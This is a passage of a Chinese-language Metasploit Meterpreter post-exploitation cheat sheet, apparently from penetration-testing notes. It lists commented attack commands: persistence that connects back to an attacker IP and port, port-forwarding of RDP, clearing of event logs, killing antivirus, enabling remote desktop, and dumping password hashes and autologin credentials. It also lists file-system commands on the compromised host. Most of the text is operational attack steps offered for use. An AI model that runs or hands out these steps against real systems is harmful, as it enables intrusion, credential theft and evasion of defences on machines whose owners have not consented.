 ~~~bash
uictl  disable  mouse        							#禁止目标使用鼠标
uictl  enable   mouse        							#允许目标使用鼠标
load                        							#使用扩展库
run				             							#使用扩展库
 
run exploit/windows/local/persistence lhost=192.168.100.132 lport=8888        #会自动连接192.168.100.132的8888端口，缺点是容易被杀毒软件查杀
portfwd add -l 9999 -r 192.168.100.158 -p 3389     		#将192.168.11.13的3389端口转发到本地的9999端口上，这里的192.168.100.158是获取权限的主机的ip地址
clearev                       #清除日志
~~~

#### Post 后渗透模块
> 该模块主要用于在取得目标主机系统远程控制权后
> 进行一系列的后渗透攻击动作

~~~bash
run post/windows/manage/migrate                			#自动进程迁移
run post/windows/gather/checkvm                			#查看目标主机是否运行在虚拟机上
run post/windows/manage/killav                			#关闭杀毒软件
run post/windows/manage/enable_rdp            			#开启远程桌面服务
run post/windows/manage/autoroute              			#查看路由信息
run post/windows/gather/enum_logged_on_users    		#列举当前登录的用户
run post/windows/gather/enum_applications       		#列举应用程序
run post/windows/gather/credentials/windows_autologin 	#抓取自动登录的用户名和密码
run post/windows/gather/smart_hashdump               	#dump出所有用户的hash
~~~

可输入 `sysinfo` 查看目标主机的信息

#### 查看主机是否运行在虚拟机上
查看主机是否运行在虚拟机上，可以看出主机是在虚拟机环境
~~~bash
run post/windows/gather/checkvm
~~~

#### 关闭杀毒软件
拿到目标主机的 shell 后第一件事就是关闭掉目标主机的杀毒软件
~~~bash
run  killav
~~~

#### 获取目标主机的详细信息
使用命令
~~~bash
run scraper 
~~~
它将目标机器上的常见信息收集起来然后下载保存在本地

#### 访问文件系统
Meterpreter 支持非常多的文件系统命令 (基本跟 Linux 系统命令类似)
~~~bash
pwd     #查看当前目录
cd      #切换目标目录；
cat     #读取文件内容；
rm      #删除文件；
edit    #使用vim编辑文件
ls      #获取当前目录下的文件；
mkdir   #新建目录；
rmdir   #删除目录； 
~~~
